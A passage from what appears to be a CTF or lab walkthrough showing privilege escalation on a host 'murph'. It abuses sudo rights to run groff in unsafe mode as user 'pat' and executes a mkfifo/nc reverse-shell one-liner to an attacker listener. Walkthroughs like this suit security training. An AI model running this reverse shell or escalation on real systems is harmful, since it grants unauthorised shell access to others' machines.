

5. Privilege Escalation
1. Sudo priveleges of user “jen”.
jen@murph:/home/jen$ sudo -l
Output:
2. “Groff” tool.
“groff” is a tool for creating man pages and it allows you to do it inside an interactive(ish) shell.
You can find some useful “groff” info here.
| Command | What is it? |
| .pso | Read the standard output from the specified command |
| .open | Open the specified file for writing |
| .opena | The opena request is like open, but if the file exists, append to it instead of truncating it. |
| .sy | Execute the shell command(s) specified by cmds. |
| .pi | Pipe the output of gtroff to the shell command(s) specified by pipe |
Use “groff” in unsafe mode and use it to connect via “Reverse Shell” to another “nc” listener.
3. On your Kali Machine create another “nc” listener.
$ nc -vlnp 1235
4. On the victim's run “groff” in “unsafe” mode.
jen@murph:/home/jen$ sudo -u pat groff -U
jen@murph:/home/jen$ .pso rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.12.10 1235 >/tmp/f
jen@murph:/home/jen$ .pso rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.12.10 1235 >/tmp/f
Output:

5. Look whether you are the user “pat” or not.
$ id
Output: